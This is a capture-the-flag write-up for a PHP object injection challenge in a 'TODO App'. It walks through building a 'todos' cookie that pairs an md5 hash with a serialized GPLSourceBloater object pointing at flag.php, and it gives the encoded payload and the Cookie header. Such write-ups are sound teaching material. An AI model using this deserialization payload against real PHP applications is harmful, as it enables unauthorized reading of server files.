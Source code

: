 # Name: TODO App

## Vulnerability

PHP Object Injection / PHP Insecure Object Deserialization

## Exploit

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag. The serialized data looks like this:

`a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}`

Its md5 hash is `'760463360e4919ca238d1566fc26661f'`.

We need to encode it - you can use the `encodeURIComponent` JavaScript function.

```javascript
encodeURIComponent(
    '760463360e4919ca238d1566fc26661f'+
    'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
)
```

So we have to make a request with the result as cookie:

`Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D`

Exploit in `../sol/solution.sh`.
